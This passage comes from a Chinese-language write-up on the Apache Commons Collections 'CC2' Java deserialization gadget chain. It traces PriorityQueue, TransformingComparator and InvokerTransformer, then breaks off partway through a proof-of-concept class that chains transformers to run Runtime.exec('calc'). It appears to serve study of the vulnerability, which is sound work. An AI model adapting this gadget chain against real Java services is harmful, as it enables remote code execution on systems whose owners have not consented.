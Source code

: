 重点在`comparator.compare(x,(E) c)`

comparator是一个接口,到他的实现类里面去找重写的compare方法,`org.apache.commons.collections4.comparators.TransformingComparator`实现了`Comparator`接口，重写了`compare`方法

![image-20211220194619123](images/2.png)

这里调用了transform方法,分析了CC1,这里就想到了CC1后半段`InvokerTransformer`类的transform方法可以去执行命令

现在的问题是前面说size的值要大于等于2,但是默认值是0

![image-20211220194956220](images/3.png)

所以我们需要去向`PriorityQueue`类添加两个元素,直接用add添加两个元素

所以大致的POC如下

```
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.util.PriorityQueue;

public class CC2Test {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
```